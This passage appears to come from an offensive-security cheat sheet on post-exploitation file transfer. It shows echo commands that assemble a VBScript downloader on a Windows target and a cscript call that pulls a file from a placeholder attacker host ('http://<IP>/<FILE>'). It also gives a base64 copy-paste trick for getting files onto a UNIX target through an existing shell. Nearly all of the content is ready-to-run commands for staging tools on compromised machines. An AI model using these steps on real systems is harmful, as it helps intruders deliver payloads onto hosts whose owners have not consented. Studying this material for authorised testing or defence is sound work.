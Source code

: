 ```
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Run VBS script to download file

```
cscript wget.vbs http://<IP>/<FILE> <FILE>
```

## I am Stuck

* If u ever happen to have a shell of a UNIX system, and cannot find a way to upload anything, this is a lifesaver trick you can try:
* On local system:

```
cat filetoupload | base64 -w 0; echo
```

* Double click on output to copy
* On Target System:

```
echo <copiedContent> | base64 -d > filetoupload
```
